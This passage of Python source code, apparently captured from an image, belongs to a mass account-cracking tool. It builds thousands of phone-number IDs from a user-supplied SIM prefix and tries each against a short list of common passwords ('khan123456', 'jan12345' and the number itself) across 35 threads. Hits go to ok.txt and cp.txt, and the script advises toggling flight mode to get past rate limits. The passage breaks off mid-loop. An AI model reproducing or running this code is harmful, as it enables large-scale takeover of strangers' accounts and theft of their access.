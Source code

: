 	print('[?] Idz saved in [ok.txt,cp.txt]')
	linex()
	input('Press Enter To Go Back To Menu')
	menu()
#_____
def random_number5():
	uid=[]
	os.system('clear')
	print(logo)
	print('[√] EXAMPLE :92318,92345,92323,92306.ETC')
	linex()
	kode = input('[+]\033[1;37m PUT YOUR SIM CODE : ')
	os.system('clear')
	print(logo)
	linex()
	print(' Example : 1000,5000,10000,****Etc')
	limit = int(input('[+] Putt Ypur Idz lemit :  '))
	for nmbr in range(limit):
		nmp = ''.join(random.choice(string.digits) for _ in range(7))
		uid.append(nmp)
	with ThreadPool(max_workers=35) as yaari:
		os.system('clear')
		print(logo)
		tl = str(len(uid))
		print(' Total Acounts : '+tl)
		print(' Selected Code : \x1b[1;92m'+kode)
		print('\x1b[1;91m If you no result use flight mode')
		linex()
		for guru in uid:
			uid = kode+guru
			pwx = [guru,kode+guru,'khan123456','janjan','jan12345','khan1122','khan12']
			yaari.submit(fcrack,uid,pwx,tl)
	linex()
	print('[✓] Crack process has been completed')
	print('[?] Idz saved in [ok.txt,cp.txt]')
	linex()
	input('Press Enter To Go Back To Menu')
	menu()
#___
def random_number6():
	uid=[]
	os.system('clear')
	print(logo)
	print('[√] EXAMPLE :92318,92345,92323,92306.ETC')
	linex()
	kode = input('[+]\033[1;37m PUT YOUR SIM CODE : ')
	os.system('clear')
	print(logo)
	linex()
	print(' Example : 1000,5000,10000,****Etc')
	limit = int(input('[+] Putt Ypur Idz lemit :  '))
	for nmbr in range(limit):
		nmp = ''.join(random.choice(string.digits) for _ in range(7))
		uid.append(nmp)
	with ThreadPool(max_workers=35) as yaari:
		os.system('clear')
		print(logo)
		tl = str(len(uid))
		print(' Total Acounts : '+tl)
		print(' Selected Code : \x1b[1;92m'+kode)
		print('\x1b[1;91m If you no result use flight mode')
		linex()
		for guru in uid:
			uid = kode+guru